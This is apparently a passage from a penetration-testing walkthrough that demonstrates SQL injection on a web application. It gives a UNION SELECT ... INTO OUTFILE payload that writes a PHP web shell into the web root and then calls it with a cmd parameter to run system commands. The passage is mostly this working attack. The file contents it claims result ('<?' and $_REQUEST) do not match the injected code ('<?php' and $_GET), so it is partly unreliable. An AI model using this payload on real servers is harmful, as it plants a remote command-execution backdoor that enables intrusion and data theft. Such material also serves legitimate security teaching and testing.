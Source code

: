 
We'll issue the **UNION SELECT** SQL keywords to include a single PHP line into the first column and save it as **webshell.php** in a writable web folder.
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

The written PHP code file results in the following:
```
<? system($_REQUEST['cmd']); ?>
```

This PHP function will parse the statements included in the cmd parameter coming from HTTP REQUESTS.

We may gen an error but not so important. We can access the webshell from:
```
/tmp/webshell.php?cmd=id
```